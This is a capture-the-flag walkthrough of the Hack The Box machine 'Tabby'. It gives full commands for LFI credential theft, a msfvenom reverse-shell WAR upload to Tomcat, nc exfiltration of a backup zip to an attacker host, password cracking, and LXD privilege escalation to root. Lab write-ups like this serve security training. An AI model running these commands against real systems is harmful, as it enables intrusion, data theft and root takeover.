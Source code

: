 # HTB: Tabby 

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

---

## Recon

### Nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.194
nmap -p 80,8080,22 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.194
```
- Open ports: 22 [SSH](SSH), 80 [HTTP](HTTP - Apache), 8080 (Tomcat)

### Add to Hosts
```bash
echo "10.10.10.194 megahosting.htb" | sudo tee -a /etc/hosts
```

---

## Enumeration

### HTTP (Port 80)
- Site: Hosting company
- `http://megahosting.htb/news.php?file=statement` → possible **LFI**

### Gobuster
```bash
gobuster dir -u http://10.10.10.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
```
- Found `/news.php`, `/files/`, `/assets/`

### Tomcat (Port 8080)
- Default Tomcat page
- Found hint: Users in `/etc/tomcat9/tomcat-users.xml`

### LFI to Read tomcat-users.xml
```bash
curl http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
- **Credentials Found**:
  - `tomcat:$3cureP4s5w0rd123!`
  - Roles: `admin-gui`, `manager-script`

---

## Shell as tomcat

### Deploy WAR via Manager Text Interface
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o shell.war
curl -u 'tomcat:$3cureP4s5w0rd123!' \
  --upload-file shell.war \
  'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
```

### Trigger Shell
```bash
nc -lnvp 443
curl http://10.10.10.194:8080/shell
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo; fg
export TERM=xterm
```

---

## Privilege Escalation: tomcat → ash

### Check `/var/www/html/files` Directory
```bash
ls -l /var/www/html/files
```
- Found: `16162020_backup.zip` owned by ash

### Exfiltrate & Crack Zip
```bash
cat 16162020_backup.zip | nc 10.10.14.18 4444
# On host:
nc -lnvp 4444 > 16162020_backup.zip
zip2john 16162020_backup.zip > hash.john
john hash.john --wordlist=/usr/share/wordlists/rockyou.txt
```
- Password: `admin@it`

### su to ash
```bash
su - ash
Password: admin@it
```
- **User Flag**: `cat ~/user.txt`

---

## Privilege Escalation: ash → root

### Check Groups
```bash
id
```
- ash is in `lxd` group

### Exploit LXD
#### Method 1: Standard Alpine Import
```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine
# On Tabby:
wget http://10.10.14.18/alpine.tar.gz
lxc image import alpine.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root/root
cat root.txt
```

#### Method 2: Minimal LXC Root (m0noc)
```bash
echo "<base64-string>" | base64 -d > root.tar.bz2
lxc image import root.tar.bz2 --alias rootimg
lxc init rootimg rootct -c security.privileged=true
lxc config device add rootct hostdisk disk source=/ path=/mnt/root
lxc start rootct
lxc exec rootct /bin/sh
cd /mnt/root/root
cat root.txt
```

---

## Summary
- **LFI** leads to **Tomcat creds**
- WAR deploy via `manager-script` role
- Backup ZIP with password reuse
- `lxd` group exploit to root